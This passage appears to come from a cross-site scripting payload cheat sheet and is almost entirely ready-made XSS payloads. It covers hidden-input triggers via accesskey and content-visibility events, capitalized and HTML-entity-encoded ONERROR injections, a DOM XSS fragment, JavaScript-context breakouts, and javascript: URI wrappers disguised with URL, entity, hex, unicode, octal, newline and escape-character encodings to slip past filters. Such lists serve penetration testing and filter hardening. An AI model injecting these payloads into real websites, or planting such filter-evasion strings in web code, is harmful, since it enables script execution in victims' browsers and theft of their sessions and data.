 ### XSS in hidden input

```javascript
<input type="hidden" accesskey="X" onclick="alert(1)">
Use CTRL+SHIFT+X to trigger the onclick event
```
in newer browsers : firefox-130/chrome-108
```javascript
<input type="hidden" oncontentvisibilityautostatechange="alert(1)"  style="content-visibility:auto" >
```

### XSS when payload is reflected capitalized

```javascript
<IMG SRC=1 ONERROR=&#X61;&#X6C;&#X65;&#X72;&#X74;(1)>
```

### DOM based XSS

Based on a DOM XSS sink.

```javascript
#"><img src=/ onerror=alert(2)>
```

### XSS in JS Context

```javascript
-(confirm)(document.domain)//
; alert(1);//
// (payload without quote/double quote from [@brutelogic](https://twitter.com/brutelogic)
```

## XSS in Wrappers for URI

### Wrapper javascript

```javascript
javascript:prompt(1)

%26%23106%26%2397%26%23118%26%2397%26%23115%26%2399%26%23114%26%23105%26%23112%26%23116%26%2358%26%2399%26%23111%26%23110%26%23102%26%23105%26%23114%26%23109%26%2340%26%2349%26%2341

&#106&#97&#118&#97&#115&#99&#114&#105&#112&#116&#58&#99&#111&#110&#102&#105&#114&#109&#40&#49&#41

We can encode the "javascript:" in Hex/Octal
\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74\x3aalert(1)
\u006A\u0061\u0076\u0061\u0073\u0063\u0072\u0069\u0070\u0074\u003aalert(1)
\152\141\166\141\163\143\162\151\160\164\072alert(1)

We can use a 'newline character'
java%0ascript:alert(1)   - LF (\n)
java%09script:alert(1)   - Horizontal tab (\t)
java%0dscript:alert(1)   - CR (\r)

Using the escape character
\j\av\a\s\cr\i\pt\:\a\l\ert\(1\)

Using the newline and a comment //
javascript://%0Aalert(1)
javascript://anything%0D%0A%0D%0Awindow.alert(1)
```

